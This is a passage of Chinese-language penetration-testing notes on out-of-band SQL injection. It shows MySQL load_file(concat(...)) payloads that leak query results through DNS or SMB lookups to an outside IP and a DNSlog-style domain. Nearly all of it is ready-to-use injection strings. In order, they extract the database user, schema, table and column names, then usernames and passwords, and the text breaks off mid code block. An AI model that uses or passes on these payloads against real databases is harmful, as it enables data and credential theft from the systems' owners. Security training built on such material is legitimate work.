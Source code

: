 * payload

  ```
  1' and load_file(concat('\\\\192.168.172.130\\',(select user()),'t'))%23
  1' and load_file(concat('\\\\192.168.172.130\\',(select group_concat(schema_name) from information_schema.schemata),'t'))%23
  ```


##### c.HTTP数据外带

#### (3). 使用

* 以DNS数据外带为例

* ```
  load_file(concat('\\\\',查询内容,'.网址\\abc')
  or
  load_file(concat('//',查询内容,'.网址/abc')	# /abc指定外部路径
  ```

* 实例

```
1.获取数据库名
select * from users where id=1 and load_file(concat('\\\\',(select database()),'.Laffrex.eyes.sh/abc'));

2.获取表名
select * from users where id=1 and load_file(concat('\\\\',(select group_concat(table_name separator '_') from information_schema.tables where table_schema=database()),'.Laffrex.eyes.sh/abc'));

3.获取字段名
select * from users where id=1 and load_file(concat('//',(select group_concat(column_name separator '_') from information_schema.columns where table_schema=database() and table_name='users'),'.Laffrex.eyes.sh/abc'));

4.获取字段数据
select * from users where id>0 and load_file(concat('//',(select group_concat(concat_ws('_',id,username,password) separator '__') from information_schema.columns where table_schema=database() and table_name='users'),'.Laffrex.eyes.sh/abc'));
```

#### (4). 基本步骤

##### a.获取数据库名

```
1' and load_file(concat('\\\\',(select database()),'.Laffrex.eyes.sh\\abc')) --+
```

##### b.获取表名

```
1' and load_file(concat('\\\\',(select group_concat(table_name separator '_') from information_schema.tables where table_schema=database()),'.Laffrex.eyes.sh\\abc')) --+
```

##### c.获取字段名

```
1' and load_file(concat('//',(select group_concat(column_name separator '_') from information_schema.columns where table_schema=database() and table_name='users'),'.Laffrex.eyes.sh/abc')) --+
```

##### d.获取字段数据

* DNS数据外带有字符大小限制

```